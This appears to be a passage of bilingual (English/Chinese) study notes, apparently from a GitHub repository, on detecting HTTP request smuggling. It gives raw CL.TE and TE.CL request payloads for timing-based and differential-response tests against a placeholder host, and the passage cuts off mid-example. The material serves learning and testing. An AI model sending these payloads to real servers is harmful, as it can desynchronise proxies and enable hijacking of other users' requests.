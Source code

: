 #### 0.2 Finding HTTP request smuggling vulnerabilities

* **using timing techniques**

    * **CL.TE**

        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Transfer-Encoding: chunked
        Content-Length: 4
        
        1
        A
        X
        ```

        当前端用`Content-Length`的时候，`X`会被丢弃，然后后端用`Transfer-Encoding`，读了`A`之后没有发现结束，会继续等待。

    * **TE.CL**

        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Transfer-Encoding: chunked
        Content-Length: 6
        
        0
        
        X
        ```

        分析和上面类似。

* **differential responses**

    * **CL.TE**

        ```http
        POST /search HTTP/1.1
        Host: vulnerable-website.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 49
        Transfer-Encoding: chunked
        
        e
        q=smuggling&x=
        0
        
        GET /404 HTTP/1.1
        Foo: x
        ```

        这里的`GET`以及后面的内容在前端被搁置。

    * **TE.CL**

        ```http
        POST /search HTTP/1.1
        Host: vulnerable-website.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 4
        Transfer-Encoding: chunked
        